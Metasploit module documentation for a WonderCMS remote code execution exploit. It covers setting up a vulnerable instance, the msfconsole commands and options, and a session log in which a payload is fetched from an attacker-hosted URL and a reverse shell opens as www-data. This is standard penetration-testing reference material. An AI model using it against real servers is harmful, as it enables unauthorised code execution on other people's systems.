 ## Vulnerable Application

[WonderCMS](https://www.wondercms.com/) is a free and open-source Content Management System (CMS). The main advantage is that only one PHP file controls the whole management. Follow next steps to install application:

### Source Installation
1. Install Apache2 and PHP on server
2. Download WonderCMS from [here](https://github.com/WonderCMS/wondercms/releases/download/3.4.2/wondercms-342.zip)
3. Enable Apache2 Rewrite Engine: `sudo a2enmod rewrite`
### Docker Installation
1. Clone the following repo: `git clone https://github.com/mablanco/docker-wondercms.git`
2. Inside the `Dockerfile` set the version to a vulnerable version: `ARG WONDERCMS_VERSION=3.4.0`
3. Build the image: ` docker build -t 3.4.0 .`
4. Run the container: `docker run -d -p 8980:80 --name wondercms 3.4.0`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use multi/http/wondercms_rce`
4. Do: `set PASSWORD [password]`
5. Do: `set RHOST [WonderCMS IP]
6. Do: `set SRVHOST [attacker IP to host payload]`
7. Do: `set LHOST [attacker IP]`
8. Do: `set LPORT [attacker PORT]`
9. Do: `run`
10. You should get a shell.

## Options

### PASSWORD

WonderCMS uses a global password that generated at the application's first run. This is global admin password that controls the whole CMS. This password has to be used in the exploit to get authenticated access.

## Scenarios

```
msf6 exploit(multi/http/wondercms_rce) > set LHOST 192.168.168.152
LHOST => 192.168.168.152
msf6 exploit(multi/http/wondercms_rce) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/http/wondercms_rce) > exploit
[*] Exploit running as background job 28.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/wondercms_rce) > 
[*] Started reverse TCP handler on 192.168.168.152:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is probably WonderCMS..
[+] The target is vulnerable. Version 3.4.2 is affected
[*] Using URL: http://192.168.168.152:8082/81k4.zip
[*] Received request, sending payload..
[*] Server stopped.
[*] Command shell session 5 opened (192.168.168.152:4444 -> 192.168.168.146:37068) at 2025-04-25 14:46:20 +0200

msf6 exploit(multi/http/wondercms_rce) > sessions 5
[*] Starting interaction with 5...

whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

